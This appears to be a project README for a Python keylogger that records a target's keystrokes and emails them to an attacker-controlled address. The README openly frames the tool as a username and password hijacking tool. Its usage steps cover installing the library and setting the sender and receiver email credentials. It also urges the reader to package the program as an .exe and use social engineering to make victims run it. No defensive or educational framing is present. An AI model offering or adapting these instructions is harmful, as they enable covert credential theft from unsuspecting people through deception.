 Keylogger is a tool that helps you when you try to capture your target's keystrokes on his/her keyboard. You can use it as a Username-Password hijacking tool when you upload this program as a executable file (via social engineering) to your target's machine.

USAGE: 
```
1.1-) FOR WINDOWS: Open cmd and write this command -> cd Desktop
1.2-) C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe -m pip install pynput(First part is your python.exe's location change it properly for your device python.exe location)      
1.3-) After you install pynput library, run the KeyLogger with -> C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
1.4-) After that, keylogger will capture all of the keystrokes on the target machine and will send E-mails that contains keystrokes from the target.   
2.1-) FOR LINUX: Open terminal and write this command -> pip3 install pynput
1.2-) cd /root/PycharmProjects/Keylogger
1.3-) python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
1.4-) If you have any problem in LINUX do as follows : 
      sudo apt update
      sude apt install python3
      sudo apt-get install python3-dev
      sudo apt install python3-pip 
      
Note : Dont forget to change 34th line according to your email and email's password : sendEmail("user@gmail.com", "user's gmail password",log.encode('utf-8'))
```
And your program will run without any error. You can make this code as .exe and use your Social Engineering skills to be more attractive for the target. Make them run it!
IMPORTANT NOTE: The first mail on the receiver e-mail will be empty. Ignore it, the second mail will come after 30 seconds and will contain the keylogs of the target machine.
                            
                            
       
